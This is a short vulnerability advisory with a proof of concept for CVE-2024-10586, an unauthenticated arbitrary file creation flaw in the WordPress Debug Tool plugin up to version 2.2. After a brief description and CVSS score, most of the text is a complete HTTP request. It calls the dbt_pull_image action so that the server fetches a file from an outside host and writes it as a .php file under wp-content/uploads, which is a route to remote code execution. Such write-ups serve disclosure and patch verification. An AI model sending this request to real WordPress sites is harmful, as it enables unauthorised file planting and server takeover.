 # CVE-2024-10586
Debug Tool &lt;= 2.2 - Unauthenticated Arbitrary File Creation

# Description:
The Debug Tool plugin for WordPress is vulnerable to arbitrary file creation due to a missing capability check on the dbt_pull_image() function and missing file type validation in all versions up to, and including, 2.2. This makes it possible for unauthenticated attackers to to create arbitrary files such as .php files that can be leveraged for remote code execution.

```
CVE: CVE-2024-10586
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 9.8
Slugs: debug-tool
```

POC
----

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/themes.php?page=themehunk-site-library&template=step
X-WP-Nonce: 47f8dbbb12
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 104
Origin: http://kubernetes.docker.internal
Connection: keep-alive

action=dbt_pull_image&source=http://rfi.nessus.org/rfi.txt&missed=/var/www/html/wp-content/uploads/t.php
```
